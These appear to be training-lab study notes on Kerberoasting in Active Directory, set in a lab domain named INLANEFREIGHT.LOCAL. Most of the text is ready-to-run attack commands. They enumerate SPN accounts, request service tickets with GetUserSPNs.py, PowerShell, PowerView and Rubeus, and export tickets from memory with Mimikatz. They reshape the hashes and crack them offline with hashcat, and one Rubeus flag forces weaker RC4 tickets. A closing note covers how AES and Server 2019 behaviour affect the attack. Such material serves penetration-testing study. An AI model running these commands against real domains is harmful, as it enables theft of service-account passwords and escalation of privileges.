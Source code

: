# Kerberoasting - Performing the Attack

Depending on your position in a network, this attack can be performed in multiple ways:

    - From a non-domain joined Linux host using valid domain user credentials.
    - From a domain-joined Linux host as root after retrieving the keytab file.
    - From a domain-joined Windows host authenticated as a domain user.
    - From a domain-joined Windows host with a shell in the context of a domain account.
    - As SYSTEM on a domain-joined Windows host.
    - From a non-domain joined Windows host using runas /netonly.


# From Linux

## GetUserSPNs.py

### Listing SPN Accounts with GetUserSPNs.py
```bash
GetUserSPNs.py -dc-ip 172.16.5.5 INLANEFREIGHT.LOCAL/forend
```

### Requesting all TGS Tickets
```bash
GetUserSPNs.py -dc-ip 172.16.5.5 INLANEFREIGHT.LOCAL/forend -request
```

### Requesting a Single TGS ticket
```bash
GetUserSPNs.py -dc-ip 172.16.5.5 INLANEFREIGHT.LOCAL/forend -request-user sqldev -outputfile sqldev_tgs
```

# From Windows

## Semi manual way.

### Enumerating SPNs with setspn.exe

```powershell
setspn.exe -Q */*
```

### Targeting a Single User
Next, using PowerShell, we can request TGS tickets for an account in the shell above and load them into memory. Once they are loaded into memory, we can extract them using Mimikatz. Let's try this by targeting a single user

```powershell
Add-Type -AssemblyName System.IdentityModel
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "MSSQLSvc/DEV-PRE-SQL.inlanefreight.local:1433"

Id                   : uuid-67a2100c-150f-477c-a28a-19f6cfed4e90-2
SecurityKeys         : {System.IdentityModel.Tokens.InMemorySymmetricSecurityKey}
ValidFrom            : 2/24/2022 11:36:22 PM
ValidTo              : 2/25/2022 8:55:25 AM
ServicePrincipalName : MSSQLSvc/DEV-PRE-SQL.inlanefreight.local:1433
SecurityKey          : System.IdentityModel.Tokens.InMemorySymmetricSecurityKey
```

### Retrieving All Tickets Using setspn.exe

```powershell
setspn.exe -T HTB.LOCAL -Q */* | Select-String '^CN' -Context 0,1 | % { New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList $_.Context.PostContext[0].Trim() }
```

### Extracting Tickets from Memory with Mimikatz

```powershell
.\mimikatz

mimikatz: base64 /out:true
isBase64InterceptInput  is false
isBase64InterceptOutput is true

mimikatz: kerberos::list /export 

```

### Preparing the Base64 Blob for Cracking

Next, we can take the base64 blob and remove new lines and white spaces since the output is column wrapped, and we need it all on one line for the next step.

```bash
echo "<base64 blob>" |  tr -d \\n | tee encoded_file
```

### Placing the Output into a File as .kirbi

```bash
cat encoded_file | base64 -d > sqldev.kirbi
```

### Extracting the Kerberos Ticket using kirbi2john.py
```bash
kirbi2john sqldev.kirbi | tee crack_file
```

### Modifiying crack_file for Hashcat

**Note**: the newer version of kirbi2john doesn't require that.

```bash
sed 's/\$krb5tgs\$\(.*\):\(.*\)/\$krb5tgs\$23\$\*\1\*\$\2/' crack_file > sqldev_tgs_hashcat
```

### Cracking the Hash with Hashcat
```bash
hashcat -m 13100 sqldev_tgs_hashcat /usr/share/wordlists/rockyou.txt 
```

## Automated / Tool Based Route

### Using PowerView to Extract TGS Tickets

### Enumerate spn users
```powershell
Import-Module .\PowerView.ps1
Get-DomainUser * -spn | select samaccountname
```

### Using PowerView to Target a Specific User

```powershell
Get-DomainUser -Identity sqldev | Get-DomainSPNTicket -Format Hashcat | Export-Csv .\sqldev_tgs.csv -NoTypeInformation
```

### Exporting All Tickets to a CSV File

```powershell
Get-DomainUser * -SPN | Get-DomainSPNTicket -Format Hashcat | Export-Csv .\ilfreight_tgs.csv -NoTypeInformation
```

## Using Rubeus

Let's use Rubeus to request tickets for accounts with the admincount attribute set to 1. These would likely be high-value targets and worth our initial focus for offline cracking efforts with Hashcat. Be sure to specify the /nowrap flag so that the hash can be more easily copied down for offline cracking using Hashcat

```bash
.\Rubeus.exe kerberoast /ldapfilter:'admincount=1' /nowrap
.\Rubeus.exe kerberoast /user:adunn /nowrap
```
We can use Rubeus with the /tgtdeleg flag to specify that we want only RC4 encryption when requesting a new service ticket. The tool does this by specifying RC4 encryption as the only algorithm we support in the body of the TGS request. This may be a failsafe built-in to Active Directory for backward compatibility. By using this flag, we can request an RC4 (type 23) encrypted ticket that can be cracked much faster.

```
Note: This does not work against a Windows Server 2019 Domain Controller, regardless of the domain functional level. It will always return a service ticket encrypted with the highest level of encryption supported by the target account. This being said, if we find ourselves in a domain with Domain Controllers running on Server 2016 or earlier (which is quite common), enabling AES will not partially mitigate Kerberoasting by only returning AES encrypted tickets, which are much more difficult to crack, but rather will allow an attacker to request an RC4 encrypted service ticket. In Windows Server 2019 DCs, enabling AES encryption on an SPN account will result in us receiving an AES-256 (type 18) service ticket, which is substantially more difficult (but not impossible) to crack, especially if a relatively weak dictionary password is in use. 
```

# Double Hop Issue
https://posts.slayerlabs.com/double-hop/